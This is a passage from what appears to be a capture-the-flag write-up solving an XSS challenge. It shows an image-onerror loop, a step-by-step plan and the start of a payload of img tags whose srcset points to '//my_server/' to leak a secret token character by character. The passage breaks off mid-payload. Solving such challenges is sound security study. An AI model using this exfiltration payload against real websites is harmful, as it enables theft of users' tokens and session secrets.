 ``` js
<body>
  <script>
    var count = 1
  </script>
  <img src=x1 srcset=x2 onerror=count<10?count+++this.src++:123>
</body>
```

Since these two problems have been solved, putting them together can solve the final answer. The process is as follows:

1. Open poc.html and window.open XSS challenge
2. Error carries our prepared payload
3. Use the `onerror` of the image to execute a nested ternary operator. If the condition is met, load the corresponding image, leak out the nth character, and wait for the next loop to start
4. The server receives the image and knows what the nth character is
5. The server passes the result to poc.html, and poc.html updates `win.location.hash`
6. After the update, the server opens the next loop by returning a response, adding n+1, and returning to step 3
7. Repeat the above steps until the token is found

The ideal process is as follows, but due to time constraints, I didn't follow it strictly in some places, for example:

1. I assumed that the first character of the identifier is `1`, if not, skip it.
2. The server waits for 500ms to start the next loop, but it is possible that the `location.hash` has not been updated yet.
3. The ideal way for the server to send results to `poc.html` is to use WebSockets, but I took a shortcut and used long polling.
4. I was too lazy to check if all the identifiers were fetched, so I started trying to use `postMessage` when the length was greater than 10.

The final code looks like this:

``` js
var payload = `
<img srcset=//my_server/0 id=n0 alt=#>
<img srcset=//my_server/1 id=n1 alt=a>
<img srcset=//my_server/2 id=n2 alt=b>
<img srcset=//my_server/3 id=n3 alt=c>
<img srcset=//my_server/4 id=n4 alt=d>
<img srcset=//my_server/5 id=n5 alt=e>
<img srcset=//my_server/6 id=n6 alt=f>
<img srcset=//my_server/7 id=n7 alt=g>
<img srcset=//my_server/8 id=n8 alt=h>
<img srcset=//my_server/9 id=n9 alt=i>
<img srcset=//my_server/a id=n10 alt=j>
<img srcset=//my_server/b id=n11 alt=k>
<img srcset=//my_server/c id=n12 alt=l>
<img srcset=//my_server/d id=n13 alt=m>
<img srcset=//my_server/e id=n14 alt=n>
<img srcset=//my_server/f id=n15 alt=o>
<img srcset=//my_server/g id=n16 alt=p>
<img srcset=//my_server/h id=n17 alt=q>
<img srcset=//my_server/i id=n18 alt=r>
<img srcset=//my_server/j id=n19 alt=s>
<img srcset=//my_server/k id=n20 alt=t>
<img srcset=//my_server/l id=n21 alt=u>
<img srcset=//my_server/m id=n22 alt=v>
<img srcset=//my_server/n id=n23 alt=w>
<img srcset=//my_server/o id=n24 alt=x>
<img srcset=//my_server/p id=n25 alt=y>
<img srcset=//my_server/q id=n26 alt=z>
<img srcset=//my_server/r id=n27 alt=0>
<img srcset=//my_server/s id=n28>
<img srcset=//my_server/t id=n29>
```